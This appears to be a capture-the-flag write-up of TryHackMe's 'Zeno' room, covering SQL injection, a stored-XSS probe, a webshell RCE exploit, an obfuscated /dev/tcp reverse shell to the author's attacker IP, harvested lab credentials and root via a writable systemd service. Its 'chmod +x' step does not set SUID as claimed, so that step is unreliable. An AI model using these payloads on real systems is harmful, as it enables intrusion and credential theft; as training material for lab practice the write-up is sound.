 ```yaml
---
title: "Zeno Thm Writeup Abusing Service File Misconfigurations"
date: 2021-10-25T20:32:44+05:30
draft: false
---
```


Hello all, today we be doing [Zeno](https://tryhackme.com/room/zeno) from TryHackMe. It is rated Medium and the description says “Do you have the same patience as the great stoic philosopher Zeno? Try it out!”

# Port scanning

There was some problem with nmap and because of that it wasn’t able to show all the open ports. [Rushi](https://iamrushi.cf/) suggested to me that I use Rustscan. Thanks Rushi :D

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-0.png)

Found few more ports. So now I redid the nmap scan on these ports:

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-1.png)

We have a web server on port 12340. Let’s check that.

# The web server

After some directory busting with different wordlists, I found these to be of interest:
```py
/index.html (Status: 200)  
/rms (Status: 301)
```
`/index.html` does not return anything useful. `/rms` is Restaurant Management System. After exploring the website with burp proxy turned on in the background, I have found a few parameterized requests. We can do SQLi in the delete order query: `http://10.10.200.163:12340/rms/delete-order.php?id=0' or 1-- -`

# sqlmap

We have time based SQLi. After some time running sqlmap, here is what I have gathered:

-   Database Name: dbrms
-   Found some tables:

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-2.png)

I couldn’t find anything useful from the database. And it takes a lot of time. So let’s see if there’s other vulnerabilities. The website displays the username(first-name). I tried checking for XSS and SSTI. I could not find SSTI but found that it has stored XSS. Set the payload to `${{4*4}}<img src=x onerror=alert(1)>` to check for both XSS and SSTI at the same time.

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-3.png)

Stored XSS. Can we steal cookies?

Let’s see if we can steal the cookies of other users. Create a new account and upload a cookie stealer payload in the first name field.

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-4.png)

I used burp repeater for this

Now I logged in with this account and, did some actions on the website (such as sending reviews, buying things, etc) in hopes of getting a hit by other users so that I can grab their cookies. But I could not get any hits even after waiting for a few minutes. So its safe to say that its a dead end. Let’s check for other exploits.

# Searching for exploits

I searched for Restaurant Management System exploits in searchsploit.

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-5.png)

There is an RCE exploit available. After running it, we get a webshell uploaded at `http://ip:12340/rms/images/reverse-shell.php`. Use the `?cmd= command` for command execution.

Use this payload in URL encoded form:  
`echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash`

This will run the following reverse shell:
```sh
/bin/sh -i >& /dev/tcp/10.14.14.78/80 0>&1
```
I used Burp Decoder to url encode the payload. The final payload is:
```sh
%65%63%68%6f%20%4c%32%4a%70%62%69%39%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4e%43%34%78%4e%43%34%33%4f%43%38%34%4d%43%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
```

Run a listener on port 80 on your attacker machine and execute the payload.

# Got a shell. Now what?

After getting a shell, I found a config file `/var/www/html/rms/connection/config.php` that contains passwords.
```bash
bash-4.2$ pwd  
/var/www/html/rms/connection  
bash-4.2$ cat config.php   
<?php  
    define('DB_HOST', 'localhost');  
    define('DB_USER', 'root');  
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');  
    define('DB_DATABASE', 'dbrms');  
    define('APP_NAME', 'Pathfinder Hotel');  
    error_reporting(1);  
?>
```
# Mysql database enumeration

In the database, there is a table named `members`. It contains some password hashes and answer hashes. I cracked a few of them except for that of user `edward` . Funnily enough, there’s a system user named edward as well.

Here are the cracked hashes and passwords:

| Username | Email | Password | Security Answer
|--|--|--|--|
| Stephen | omolewastephen@gmail.com | 1234 | deborah |
| john | jsmith@sample.com | jsmith123 | middlename |
| edward | edward@zeno.com | COULD NOT CRACK | COULD NOT CRACK |

I tried these passwords on edward’s account but couldn’t login.

# LinPEAS

Now let’s run [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). LinPEAS is a script for automated enumeration. It can help you identify running services, files, credentials, or any vulnerabilities.

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-6.png)

We have write privileges on `/etc/systemd/system/zeno-monitoring.service` Also found new creds.
```
username=**zeno**,password=**FrobjoodAdkoonceanJa**
```
Tried `sudo -l`as current user with this password but it did not work. Let's try editing the service file for now.

# Service file misconfiguration to root

Let’s add the SUID bit on `/bin/bash` for an easy privesc. Change the ExecStart to the following as shown below:
```ini
ExecStart=/usr/bin/chmod +x /bin/bash
```
![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-7.png)

We only need to change the ExecStart command. This command defines what will get executed by the service.

Now when this service starts again, we will have a SUID `/bin/bash`. We can make that happen if we can somehow restart it. But we don't have permissions to do that as a low privileged user. Another way to make it happen is if we can somehow reboot the system. I tried to reboot the system but couldn't. We need root privileges to reboot.

Let’s try the password found earlier (`FrobjoodAdkoonceanJa`) on user `edward`. We can successfully login as edward 🎉.

Checking for `sudo -l` permissions on edward, we see that he can reboot the system.

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-8.png)

User edward can reboot the system

Reboot the machine with `sudo /usr/sbin/reboot` and now when the system is fully rebooted, login as edward through ssh. As the system reboots, our service will also startup. We will now have a SUID `/bin/bash`. Use it to escalate privileges to **root**

![](/images/img-zeno-thm-writeup-abusing-service-file-misconfigurations-9.png)

Rooted :p

Zeno is now rooted✨

I hope it was easy to follow through. Until next time.  
Take care :)

Find me on twitter: [@manash036](https://twitter.com/manash036)
